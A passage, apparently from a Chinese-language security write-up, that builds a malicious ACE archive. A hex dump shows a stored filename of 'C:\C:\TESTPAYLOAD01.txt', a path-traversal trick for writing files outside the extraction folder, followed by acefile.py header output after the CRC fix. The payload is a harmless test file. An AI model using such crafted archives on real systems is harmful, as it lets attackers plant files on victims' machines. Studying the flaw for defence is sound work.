- **不使用全路径压缩保存ACE，进行攻击**

  在压缩文件时 不选择全目录，构造ACE压缩包如下

  ```cmd
  00000000h: 0E 49 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; .I1...?*ACE**..
  00000010h: 02 00 79 54 5B 4E FE 03 4B E6 4E 20 00 00 16 2A ; ..yT[N?K鍺 ...*
  00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
  00000030h: 53 49 4F 4E 2A 2C 7C 36 00 01 01 80 0D 00 00 00 ; SION*,|6...€....
  00000040h: 0D 00 00 00 61 54 5B 4E 20 00 00 00 5C 4D 43 7C ; ....aT[N ...\MC|
  00000050h: 00 03 0A 00 54 45 17 00 43 3A 5C 43 3A 5C 54 45 ; ....TE..C:\C:\TE
  00000060h: 53 54 50 41 59 4C 4F 41 44 30 31 2E 74 78 74 41 ; STPAYLOAD01.txtA
  00000070h: 41 41 41 41 41 41 41 41 41 20 0D 0A             ; AAAAAAAAA ..
  ```

  修改好校验

  ```cmd
  >python acefile.py --headers TESTPAYLOD01.ace
  31788 b'\x01\x01\x80\r\x00\x00\x00\r\x00\x00\x00aT[N \x00\x00\x00\\MC|\x00\x03\n
  \x00TE\x17\x00C:\\C:\\TESTPAYLOAD01.txt'
  TESTPAYLOD01.ace: CorruptedArchiveError: header CRC failed
  
  >python acefile.py --headers TESTPAYLOD01.ace
  volume
      filename    TESTPAYLOD01.ace
      filesize    124
      headers     MAIN:1 FILE:1 others:0
  header
      hdr_crc     0x490e
      hdr_size    49
      hdr_type    0x00        MAIN
      hdr_flags   0x9000      ADVERT|SOLID
      magic       b'**ACE**'
      eversion    20          2.0
      cversion    20          2.0
      host        0x02        Win32
      volume      0
      datetime    0x4e5b5479  2019-02-27 10:35:50
      reserved1   fe 03 4b e6 4e 20 00 00
      advert      b'*UNREGISTERED VERSION*'
      comment     b''
      reserved2   b''
  header
      hdr_crc     0x7c2c
      hdr_size    54
      hdr_type    0x01        FILE32
      hdr_flags   0x8001      ADDSIZE|SOLID
      packsize    13
      origsize    13
      datetime    0x4e5b5461  2019-02-27 10:35:02
      attribs     0x00000020  ARCHIVE
      crc32       0x7c434d5c
      comptype    0x00        stored
      compqual    0x03        normal
      params      0x000a
      reserved1   0x4554
      filename    b'C:\\C:\\TESTPAYLOAD01.txt'
      comment     b''
      ntsecurity  b''
      reserved2   b''
  ```
